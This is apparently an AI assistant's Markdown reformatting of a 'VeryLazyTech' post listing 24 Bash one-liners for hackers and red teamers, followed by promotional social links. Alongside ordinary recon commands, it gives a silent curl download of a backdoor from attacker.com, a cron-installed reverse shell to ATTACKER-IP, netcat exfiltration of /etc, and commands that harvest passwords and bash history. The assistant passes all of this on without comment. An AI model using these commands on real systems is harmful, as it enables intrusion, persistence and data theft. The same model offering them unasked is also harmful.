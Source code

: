 Sure! Here's a clean and well-formatted Markdown version of your content:

```markdown
# 15+ Linux Bash One-Liners Hackers Use (And You Should Too!)  
**By Very Lazy Tech 👾**  
*Published: Jul 30, 2025 · 3 min read*

✨ *Link in the first comment*

Linux power users and ethical hackers know the true power of the terminal lies in concise, clever one-liners. These one-liners can automate tasks, extract hidden data, escalate privileges, scan systems, and much more — all in a single line of Bash.

Below are 15+ elite Bash one-liners that every penetration tester, red teamer, or Linux enthusiast should add to their toolbox.

---

## 🔥 Core Info Gathering & Recon

1. **Start a Quick Web Server (for file transfers/payloads)**  
   ```bash
   python3 -m http.server 8080
   ```
   Use this to exfil data, serve payloads, or quickly download tools to a compromised host.

2. **Find All SUID Binaries (Privilege Escalation)**  
   ```bash
   find / -perm -4000 -type f 2>/dev/null
   ```
   Look for binaries that execute as root. Combine with GTFOBins to exploit.

3. **List All Cron Jobs Across Users**  
   ```bash
   for user in $(cut -d: -f1 /etc/passwd); do crontab -u $user -l 2>/dev/null; done
   ```
   Great for persistence discovery and privilege escalation.

4. **Basic Port Scan with Bash (when tools are restricted)**  
   ```bash
   for port in {20..1024}; do (echo >/dev/tcp/10.10.10.5/$port) && echo "Port $port open"; done 2>/dev/null
   ```
   Lightweight alternative to nmap.

5. **Check All Network Interfaces + IPs**  
   ```bash
   ip a | grep inet
   ```
   Useful inside isolated subnets or pivoted hosts.

---

## 🕵️‍♂️ Enumeration & Post-Exploitation

6. **List Users (spot service/system accounts)**  
   ```bash
   cut -d: -f1 /etc/passwd
   ```

7. **Discover World-Writable Files (misconfig alert!)**  
   ```bash
   find / -type f -perm -o+w 2>/dev/null
   ```

8. **Search for Passwords or Secrets in Config Files**  
   ```bash
   grep -iR 'password\|secret\|key\|token' /etc 2>/dev/null
   ```

9. **Monitor Real-Time Network Connections**  
   ```bash
   watch -n 1 ss -tuna
   ```

10. **View Bash History Across All Users**  
   ```bash
   find /home /root -name ".*history" -exec cat {} \; 2>/dev/null
   ```

---

## 🧠 Data Extraction & Movement

11. **Transfer Files to Remote Machine over SSH**  
   ```bash
   scp payload.sh user@192.168.1.5:/tmp
   ```

12. **Transfer & Extract Compressed Payloads On-the-Fly**  
   ```bash
   tar czf - /loot | ssh user@remote "tar xzf - -C /tmp"
   ```

13. **Grab Email Addresses from a File System**  
   ```bash
   grep -oE "[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\.[a-z]{2,6}" * 2>/dev/null | sort -u
   ```

14. **Extract Unique IPs from Logs (Quick Threat Intel)**  
   ```bash
   grep -oE '\b([0-9]{1,3}\.){3}[0-9]{1,3}\b' /var/log/* 2>/dev/null | sort -u
   ```

15. **Download File Silently with Curl (Payloads, Tools)**  
   ```bash
   curl -sO http://attacker.com/backdoor.sh
   ```

---

## 💣 Persistence, Priv-Esc & Lateral Movement

16. **Add a Backdoor Reverse Shell to Cron (Demo only)**  
   ```bash
   echo "* * * * * bash -i >& /dev/tcp/ATTACKER-IP/4444 0>&1" | crontab -
   ```

17. **Find Writable Directories (Good for Dropping Files)**  
   ```bash
   find / -type d -writable 2>/dev/null
   ```

18. **Compress and Exfiltrate via Netcat (Old but gold)**  
   ```bash
   tar czf - /etc | nc ATTACKER-IP 1234
   ```
   Start listener on attack box:  
   ```bash
   nc -lvp 1234 > data.tar.gz
   ```

19. **Check for Running Docker Containers (Escape Paths)**  
   ```bash
   docker ps -a 2>/dev/null
   ```

20. **Get Root’s Mail (Yes, people still leave secrets there)**  
   ```bash
   cat /var/mail/root 2>/dev/null
   ```

---

## 🎭 Obfuscation, Encoding, Decryption

21. **Decode Base64 Payloads**  
   ```bash
   echo 'U29ja3M=' | base64 -d
   ```

22. **Convert Hex to ASCII (Useful for C2 traffic)**  
   ```bash
   echo 4861636b | xxd -r -p
   ```

23. **Generate Strong Passwords Fast**  
   ```bash
   tr -dc A-Za-z0-9 </dev/urandom | head -c 16; echo
   ```

24. **Check System Info in One Shot (Pivot Context)**  
   ```bash
   whoami && uname -a && id && uptime
   ```

---

## 🎉 Join the VeryLazyTech Community

Become a **VeryLazyTech** member and level up your skills! 🎁  
Visit our shop for e-books and courses. 📚

**Follow us on:**
- ✖ Twitter: [@VeryLazyTech](https://twitter.com/VeryLazyTech)
- 👾 GitHub: [@VeryLazyTech](https://github.com/VeryLazyTech)
- 📜 Medium: [@VeryLazyTech](https://medium.com/@VeryLazyTech)
- 📺 YouTube: [@VeryLazyTech](https://youtube.com/@VeryLazyTech)
- 📩 Telegram: [@VeryLazyTech](https://t.me/VeryLazyTech)
- 🕵️‍♂️ Website: [VeryLazyTech](https://verylazytech.com)
```

Let me know if you'd like this styled for a blog post, presentation, or printable cheat sheet!
